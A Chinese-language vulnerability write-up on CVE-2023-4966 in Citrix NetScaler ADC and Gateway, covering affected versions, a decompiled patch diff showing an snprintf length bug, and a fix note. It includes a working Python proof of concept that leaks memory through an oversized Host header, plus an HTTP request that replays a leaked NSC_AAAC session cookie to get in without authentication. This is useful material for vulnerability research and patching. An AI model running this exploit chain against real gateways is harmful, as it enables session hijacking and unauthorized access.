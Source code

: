 # Citrix NetScaler ADC & Gateway 信息泄露漏洞 CVE-2023-4966

## 漏洞描述

NetScaler ADC和NetScaler Gateway是美国思杰（Citrix）公司的产品。Citrix Gateway是一套安全的远程接入解决方案，可提供应用级和数据级管控功能，以实现用户从任何地点远程访问应用和数据；Citrix ADC是一个全面的应用程序交付和负载均衡解决方案，用于实现应用程序安全性、整体可见性和可用性。

在 Citrix 设备设置为网关（VPN 虚拟服务器、ICA 代理、CVPN、RDP 代理）或 AAA 虚拟服务器的情况下，可以通过访问`/oauth/idp/.well-known/openid-configuration`路由并往 HOST字段发送大量数据从而泄露缓冲区信息，其中可能包含session cookie相关信息，攻击者可以借助该信息无需经过身份验证实现访问。

参考链接：

- https://xz.aliyun.com/t/13031

## 漏洞影响

```
NetScaler ADC 和 NetScaler Gateway 14.1 < 14.1-8.50
NetScaler ADC 和 NetScaler Gateway 13.1 < 13.1-49.15
NetScaler ADC 和 NetScaler Gateway 13.0 < 13.0-92.19
NetScaler ADC 13.1-FIPS < 13.1-37.164
NetScaler ADC 12.1-FIPS < 12.1-55.300
NetScaler ADC 12.1-NDcPP < 12.1-55.300
```

## 漏洞复现

选择 NetScaler Gateway 的 13.1-49.15和13.1-48.47 两个版本进行分析，主要关注其 /netscaler/nsppe 二进制文件的相关补丁，该文件是 NetScaler 数据包处理引擎，它包含完整的 TCP/IP 网络堆栈以及多个 HTTP 服务。

通过分析，最终确定与漏洞相关的函数为：ns_aaa_oauth_send_openid_config和ns_aaa_oauthrp_send_openid_config

更新前后代码的主要差异如下：

```
# 更新前

iVar3 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
authv2_json_resp = 1;
iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,iVar3);
```


```
# 更新后

uVar7 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
uVar4 = 0x20;
if (uVar7 < 0x20000) {
    authv2_json_resp = 1;
    iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,uVar7);
    ...
}

```

该代码段落在访问 `/oauth/idp/.well-known/openid-configuration` 路由的时候将被调用，其逻辑是通过调用 snprintf()函数构造一个 json 数据并通过 ns_vpn_send_response() 函数形成http response 返回给用户，这个 json 数据中拼接了来自 http 请求的 **HOST 字段的数据**。

snprintf()函数虽然通过第二个参数限制了 print_temp_rule对应的字符串的最大长度，但是 snprintf()函数的返回值却是 完成 format 之后预期的 字符串的长度，也就是说即使第二个参数为 0x20000 ，snprintf()函数的返回值可以大于 0x20000。

ns_vpn_send_response()函数的第四个参数决定了读取的内存大小，这就意味着 紧跟在 print_temp_rule变量之后的缓冲区中的信息能够被带入 response 当中。

从上面的分析可以想到，攻击者能够在访问 /oauth/idp/.well-known/openid-configuration路由时往 Host字段插入大量数据，从而使得返回的response 中带上缓冲区信息，导致信息泄露。

poc：

```python
import requests
from urllib.parse import urljoin

url = "https://ip:port"

headers = {"Host": "a"*24578}
try:
    r = requests.get(urljoin(url,"/oauth/idp/.well-known/openid-configuration"), headers=headers, verify=False,timeout=10)
    print(r.status_code)
    if len(r.content) > 0:
        with open("resp.txt","wb") as f:
            f.write(r.content)
except Exception as e:
    print(e)

```

在 response 中可能会包含 长度为 65 或 32 的 session cookie ，比如：

```
5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
```

攻击者可以借助该信息无需经过身份验证实现系统的访问：

```
GET /logon/LogonPoint/Authentication/GetUserName HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: NSC_AAAC=5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

## 漏洞修复

官方最新版本已修复此漏洞。下载地址为：

- [https://www.citrix.com/downloads/citrix-adc/](https://www.citrix.com/downloads/citrix-adc/)
